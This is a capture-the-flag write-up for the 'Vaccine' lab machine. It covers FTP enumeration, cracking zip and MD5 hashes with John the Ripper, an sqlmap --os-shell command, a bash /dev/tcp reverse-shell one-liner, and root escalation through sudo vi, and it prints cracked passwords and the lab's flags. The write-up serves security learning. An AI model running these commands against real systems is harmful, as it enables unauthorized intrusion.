# Vaccine
Starting Point - Tier 2

### 1. Besides SSH and HTTP, what other service is hosted on this box?


We can see the service `ftp` running on this box through `nmap`.

### 2. This service can be configured to allow login with any password for specific username. What is that username?
`anonymous`

### 3. What is the name of the file downloaded over this service?
`backup.zip`

### 4. What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?
`zip2john`

### 5. What is the password for the admin user on the website?




Using `zip2john` and `john`, we get the password `741852963` for the archive.



In `index.php`, we see a password verification line. The hash has been hard-coded into the code, and it uses the weak cipher MD5.

Using `john --format=raw-md5` on this hash, we get the password `qwerty789`.

### 6. What option can be passed to sqlmap to try to get command execution via the sql injection?
`--os-shell`

### 7. What program can the postgres user run as root using sudo?
We can first log in to the website as `admin:qwerty789`. There's a search bar in the admin interface, which may be vulnerable to SQL injection. We can use `sqlmap` for this, but first, we need to get our auth cookie:



With that, we run the following command:

> `sqlmap --os-shell -u http://10.129.95.174/dashboard.php --forms --cookie="PHPSESSID=1gm7uldhppcp8otl296ua48og3"`

After a while, `sqlmap` shows the following:



Meaning we now have access to a shell on the box. I noticed eventually that this shell was particularly slow. I decided to just spawn a reverse-shell on the device:

> ```bash
> # On my device
> nc -lvnp 9999
> # On the target, through sqlmap
> bash -c "bash -i >& /dev/tcp/10.10.16.70/9999 0>&1"
> ```

I tried running `sudo -l`, but it seems like I needed a password that wasn't the admin's. Since this is a database user, it's probably exposed in one of the server files.

Sure enough, snooping around in `/var/www/html` led me straight to the answer:



Running `sudo -Sl`:



Turns out `postgres` can run `vi` as root.

## Flag
### postgresql


`ec9b13ca4d6229cd5cc1e09980965bf7`

### root
For this one, I had to escalate my privilege to root. From [Task 7](#7-what-program-can-the-postgres-user-run-as-root-using-sudo), I already know that `postgres` could run `vi` as root, which is an easy way to become `root`.

First, I needed to be able to send commands to `vim` on the target by changing `stty` on my machine:

> ```sh
> script /dev/null -c bash # force target to launch a PTY
> # CTRL+Z to send remote shell to background
> stty raw -echo; fg
> # enter one more time to return to shell
> ```

Now that I've spawned a PTY on the target machine, I should be able to use `vim` properly:

> ```sh
> echo "P@s5w0rd!" | sudo -S /etc/postgresql/11/main/pg_hba.conf
> ```

Then, I switch to command mode on `vim`:



After this, it was trivial. I think the screen bugged out because `vim` closed abruptly and maybe the PTY dimensions weren't able to return to normal, but it didn't matter. I just went to `cd ~` and looked for the file:



The root flag is `dd6e058e814260bc70e9bbdef2715849`!

## Solved!
